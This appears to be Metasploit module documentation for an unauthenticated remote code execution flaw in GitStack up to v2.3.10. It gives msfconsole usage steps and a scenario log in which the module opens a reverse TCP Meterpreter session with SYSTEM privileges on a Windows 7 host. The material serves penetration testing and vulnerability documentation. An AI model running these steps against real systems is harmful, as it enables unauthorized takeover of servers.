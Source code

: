 ## Description

An unauthenticated remote code execution vulnerability exists in GitStack through v2.3.10. This module exploits the vulnerability by sending unauthenticated REST API requests to put the application in a vulnerable state, if needed, before sending a request to trigger the exploit. These configuration changes are undone before the module exits. The module has been tested on GitStack v2.3.10.

## Vulnerable Application

In vulnerable versions of GitStack, a flaw in `Authentication.class.php` allows [unauthenticated remote code execution](https://security.szurek.pl/gitstack-2310-unauthenticated-rce.html) since `$_SERVER['PHP_AUTH_PW']` is passed directly to an `exec` function.

To exploit the vulnerability, the repository web interface must be enabled, a repository must exist, and a user must have access to the repository.

Note: A passwd file should be created by GitStack for local user accounts. Default location: `C:\GitStack\data\passwdfile`.

## Verification Steps

- [ ] Install a vulnerable GitStack application
- [ ] `./msfconsole`
- [ ] `use exploit/windows/http/gitstack_rce`
- [ ] `set rhost <rhost>`
- [ ] `set verbose true`
- [ ] `run`

Note: You may have to run the exploit multiple times since the powershell that is generate has to be under a certain size.

## Scenarios

### GitStack v2.3.10 on Windows 7 SP1

```
msf5 > use exploit/windows/http/gitstack_rce
msf5 exploit(windows/http/gitstack_rce) > set rhost 172.22.222.122
rhost => 172.22.222.122
msf5 exploit(windows/http/gitstack_rce) > set verbose true
verbose => true
msf5 exploit(windows/http/gitstack_rce) > run

[*] Started reverse TCP handler on 172.22.222.131:4444 
[*] Powershell command length: 6103
[-] Web interface is disabled
[-] No repositories found
[+] Web interface successfully enabled
[+] The repository has been successfully created
[+] Created user: ZROTE
[+] User ZROTE added to EsILm
[*] Sending stage (252483 bytes) to 172.22.222.122
[+] ZROTE removed from EsILm
[+] ZROTE has been deleted
[+] Web interface successfully disabled
[+] EsILm has been deleted

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-V438RLMESAE
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > 
```
